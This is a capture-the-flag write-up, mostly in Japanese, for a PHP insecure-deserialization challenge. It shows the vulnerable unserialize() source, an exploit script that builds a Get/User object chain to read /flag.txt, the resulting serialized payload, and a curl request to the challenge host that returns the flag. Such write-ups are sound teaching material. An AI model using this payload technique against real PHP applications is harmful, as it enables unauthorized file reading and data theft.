

# PeehPee Deser:MerCTF:410pts
Let's continue with the legendary language: PeehPee! Can you get the flag now ?  
**URL:** [http://peehpee.merctf.com/](http://peehpee.merctf.com/)  

# Solution
URLが与えられるので、アクセスするとソースが表示された。  
  
以下の通りであった。  
```php
<?php
// flag.txt is in the root directory
class Get
{
    public function __Tostring()
    {
        return file_get_contents($this->fname);
    }
}

class User
{
    public $user;
    public $human;
    public function hello(){
        if ($this->human){
            echo $this->user . " is human\n";
        } else {
            echo $this->user . " is not a human, a robot?";
        }
    }
}

if ($_SERVER['REQUEST_METHOD'] == 'GET')
{
    highlight_file(__FILE__);
    die();
}
else{
    $obj = unserialize($_POST['info']);
    $obj->hello();
}
?>
```
`unserialize($_POST['info']);`から安全でないデシリアライズだ。  
以下のようにexploit.phpとして`/flag.txt`をデシリアライズした際に表示するものを作る。  
```php
<?php

class Get
{
    public function __Tostring()
    {
        return file_get_contents($this->fname);
    }
}

class User
{
    public $user;
    public $human;
    public function hello(){
        if ($this->human){
            echo $this->user . " is human\n";
        } else {
            echo $this->user . " is not a human, a robot?";
        }
    }
}

$obj_get = new Get();
$obj_user = new User();
$obj_get->fname = "/flag.txt";
$obj_user->user = $obj_get;

$exploit = serialize($obj_user);

echo $exploit;

?>
```
実行する。  
```bash
$ php -f exploit.php
O:4:"User":2:{s:4:"user";O:3:"Get":1:{s:5:"fname";s:9:"/flag.txt";}s:5:"human";N;}
```
これを投げつけてやればよい。  
```bash
$ curl -X POST 'http://peehpee.merctf.com/' -d 'info=O:4:"User":2:{s:4:"user";O:3:"Get":1:{s:5:"fname";s:9:"/flag.txt";}s:5:"human";N;}'
Merctf{PeeHpEe_DEseriaLiZation_MastEr:)}
 is not a human, a robot?
```
flagが得られた。  

## Merctf{PeeHpEe_DEseriaLiZation_MastEr:)}